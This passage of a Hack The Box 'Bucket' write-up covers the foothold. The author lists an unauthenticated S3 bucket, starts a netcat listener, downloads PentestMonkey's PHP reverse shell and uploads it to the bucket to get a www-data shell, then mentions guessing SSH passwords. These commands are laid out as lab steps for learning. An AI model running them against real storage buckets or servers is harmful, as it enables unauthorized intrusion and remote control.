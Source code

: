 # FootHold

5. Since I already have an AWS account and have already configure my AWS CLI from doing the FLAWS challenge... I wont cover how to configure a default credential. If you need to learn how to do it go to the AWS CLI command reference website.

6. First thing I did is to look into the bucket by listing its directory
   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ aws s3 ls --endpoint-url http://s3.bucket.htb --region us east-1
   2021-12-01 19:41:03 adserver
   ```
   then I looked into the adserver directory too
   ```
   ┌──(schoon3r㉿nexer)-[~]
   └─$ aws --endpoint-url http://s3.bucket.htb --region us-east-1 s3 ls adserver
                           PRE images/
   2021-12-01 19:47:04     5344 index.html
   ```
7. Now, I know this is a sort of public (in a sense) bucket because I can use the ls command without the owner's user credentials. If I can LS, then I can also CP which one of the other command by AWS CLI - S3.

8. So, what we are gonna do is upload a reverse shell script by PentestMonkey so we can comb through the server

   First let me start a listener

   ```
   nc -nvlp 444
   ```

   Then I download the reverse shell, and change the parameters within the script

   ```
   sudo wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
   ```

   Lastly, I uploaded the file into the bucket... I also renamed the script coz its too long. (run.php)

   ```
   aws --endpoint-url http://s3.bucket.htb --region us-east-1 s3 cp run.php s3://adserver
   ```

   Rabbit hole: you might think it did not work coz your netcat just wont get the shell, but just keep trying... I also had to do it a lot of times every time I try to get the shell. Just be patient.

9. Inside, we find that:

   - we are user 'www-data'
   - there are two users root and roy

10. So from the nmap scan we know SSH is on because port 22 is alive. We have a username so we need a password. Just because I am me, I still tried to SSH to both user using noob passwords like password, admin, root, toor... as you may know... no joy!
